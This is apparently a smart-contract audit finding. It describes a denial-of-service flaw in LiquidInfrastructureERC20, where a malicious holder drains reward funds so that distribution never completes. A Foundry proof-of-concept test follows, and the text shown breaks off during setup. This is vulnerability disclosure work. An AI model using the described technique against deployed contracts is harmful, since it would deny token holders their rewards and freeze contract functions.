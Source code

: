 ### Impact
1. Latest holders won't receive rewards because a malicious holders would get more rewards than expected, making `LiquidInfrastructureERC20` run out of reward funds before reaching the end of `holders` array;
2. Since the contract runned out of reward funds while locked for distribution and not all holders have been payed, the distribution period will never finish, preventing functions protected by `LockedForDistribution` varible to execute, leading to a DoS.

### Proof of Concept
```javascript
001: //SPDX-License-Identifier: Apache-2.0
002: pragma solidity 0.8.12;
003: 
004: import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
005: import "../src/LiquidInfrastructureNFT.sol";
006: import "../src/LiquidInfrastructureERC20.sol";
007: import "forge-std/Test.sol";
008: 
009: contract DT is ERC20 {
010:     address private owner;
011: 
012:     constructor(string memory name_, string memory symbol_) ERC20(name_, symbol_) {
013:         owner = msg.sender;
014:     }
015: 
016:     function mint(address to, uint256 amount) public {
017:         require(msg.sender == owner, "not allowed");
018:         _mint(to, amount);
019:     }
020: }
021: 
022: contract LiquidInfrastructureERC20Test is Test {
023:     address owner = 0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496;
024:     address alice = 0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266;
025:     address bob   = 0x70997970C51812dc3A010C7d01b50e0d17dc79C8;
026:     address eve  = 0x1Df3d35F66b4C30686a1604E3af08779A3914b51;
027:     uint256 MIN_DISTRIBUTION_PERIOD = 2;
028: 
029:     function test_DoS_distribute_rewards() public {
030:         uint256 injectedHolders = 100;
031:         uint256 initialTokensAmount = 1e18;
032:         uint256 smallAmountEnoughToDrainRewards = 1e17;
033:         uint256 totalRewardsAmount = 10e18;
034:         uint256 nextDistributionBlock = block.number + MIN_DISTRIBUTION_PERIOD;
035: 
036:         ////// Begin Setup ////////////////////////////////////////////
037:         address[] memory distributable_tokens = new address[](1);
038:         address[] memory managed_nfts = new address[](1);
039:         address[] memory approved_holders = new address[](3);
040: 
041:         DT rewardTokens = new DT("distributable token", "DT");
042:         distributable_tokens[0] = address(rewardTokens);
043: 
044:         LiquidInfrastructureNFT nft = new LiquidInfrastructureNFT("A");
045:         managed_nfts[0] = address(nft);
046: 
047:         approved_holders[0] = alice;
048:         approved_holders[1] = bob;
049:         approved_holders[2] = eve;
050: 
051:         LiquidInfrastructureERC20 erc20 = new LiquidInfrastructureERC20(
052:             "liquid infrastructure token",
053:             "LIT",
```